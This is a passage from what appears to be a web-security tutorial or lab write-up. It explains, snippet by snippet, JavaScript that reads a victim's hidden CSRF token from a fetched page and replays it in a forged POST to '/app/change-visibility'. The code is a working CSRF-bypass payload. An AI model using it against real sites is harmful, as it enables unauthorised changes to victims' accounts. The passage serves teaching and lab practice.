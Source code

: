 ```js
req.send();
```

The script snippet above will send everything we constructed in the HTTP request.

```js
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
```

The script snippet above defines a function called handleResponse.

```js
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
```

The script snippet above defines a variable called token, which gets the value of responseText from the page we specified earlier in our request. ```/name="csrf" type="hidden" value="(\w+)"/)[1];``` looks for a hidden input field called csrf and \w+ matches one or more alphanumeric characters. In some cases, this may be different, so let us look at how you can identify the name of a hidden value or check if it is actually "CSRF".

```js
var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
```

The script snippet above constructs the HTTP request that we will send through a XMLHttpRequest object.

```js
changeReq.open('post', '/app/change-visibility', true);
```

In the script snippet above, we change the method from GET to POST. The first request was to move us to the targeted page and the second request was to perform the wanted action.

```js
changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
```

The script snippet above is setting the Content-Type to application/x-www-form-urlencoded.

```js
changeReq.send('csrf='+token+'&action=change');
```

The script snippet above sends the request with one param called csrf having the value of the token variable, which is essentially the victim's CSRF token, and another parameter called action with the value change. These are the two parameters that we noticed while inspecting the targeted request through Burp.
